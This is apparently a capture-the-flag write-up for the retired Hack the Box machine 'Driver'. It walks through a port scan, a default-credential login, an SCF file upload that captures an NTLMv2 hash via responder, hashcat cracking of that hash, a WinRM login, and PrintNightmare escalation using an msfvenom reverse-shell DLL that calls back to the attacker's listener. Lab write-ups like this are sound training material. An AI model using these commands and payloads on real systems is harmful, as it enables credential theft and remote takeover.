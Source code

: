 ```yaml
---
title: Hack the Box Writeup - Driver
author: 6b6f6c6a61 
date: 2022-02-27
category: Hack the Box
layout: post
---
```


# Driver Writeup
Driver was an easy Windows box from Hack the Box created by MrR3boot.
## Recon
I started by doing an nmap scan of the box:
```
sudo nmap -sS -p- 10.10.11.106
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 06:51 EST
Nmap scan report for 10.10.11.106
Host is up (0.033s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 105.22 seconds
```

I then looked at the http server first. You get prompted for basic auth credentials, but `admin`/`admin` works and gives us access to a Website called "MFP Firmaware Update Center". 

## Foothold
The most interesting part of the web page is a file upload under the "Firmware Updates" tab. I tried around with this upload for a bit and uploaded e.g. executables, as the site claims these should be tested. However after a time I gave up on this. As this is a Windows box an other option would be to trigger an NTLM connection using the file upload. I saw something similar on HtB in the past with an SQL injection, that you could exploit to get an NTLM connection.

We can trigger an NTLM connection in this case by uploading an `.scf` file. There is a blog post on [pentesterlab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) about this. First I started responder using:
```
sudo responder -I tun0 --lm
```
Then I created an `.scf` file and uploaded it. The file I created looked as follows:
```
[Shell]
Command=2
IconFile=\\10.10.14.8\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
This gave me a hash:
```
[SMB] NTLMv2 Hash     : tony::DRIVER:3cf88c22c2b5dfe0:75CF7454B42FD9A156C2525353940DFF:010100000000000087E8256E9326D8017C77361926092FA000000000020000000000000000000000
```
Sadly this is no NetNTLMv1 Hash, however I was able to crack it using hashcat as the password was contained in rockyou.txt:
```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
As can be seen in the nmap scan, winrm is active on the box. So I used the cracked password with evil-winrm to get access to the machine:
```
evil-winrm -u tony -p liltony -i 10.10.11.106
```
At this point I got access to the user flag.

## Privilege escalation 

The box is vulnerable to PrintNightmare, which I looked as first as the machine did have a printer theme. I personally used [this](https://github.com/cube0x0/CVE-2021-1675) exploit and pretty much followed the instructions provieded there. So I installed it, generated a a dll using msfvenom as follows:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=12345 -f dll -o test.dll
```
I then uploaded this dll using evil-winrm and started a nc listener:
```
nc -lvp 12345
```
Afterwards I executed the exploit using:
```
python3 ./CVE-2021-1675.py ./tony:liltony@10.10.11.106 'C:\Users\tony\Documents\test.dll'
```
This gave me system shell and allowed me to read the root flag. 

After machine retired I watched ippsecs's [walktrough](https://www.youtube.com/watch?v=N2ahkarb-zI). One of the privilege escalations used in the video also is PrintNightmare, but with the [powershell script](https://github.com/JohnHammond/CVE-2021-34527) by John Hammond and Caleb Stewart. However there is a second way to escalate privileges using an exploit for a Ricoh printer driver for which an metasploit module seems to exist. 

Small sidenote: If you ever want to exploit PrintNightmare on a Windows 2008 system you can use [this](https://github.com/evilashz/CVE-2021-1675-LPE-EXP) exploit. Just remove the comment in the source code, so that the right path for Windows 2008 is used.. I had problems getting the powershell exploit to run on such a system before and this worked for me.

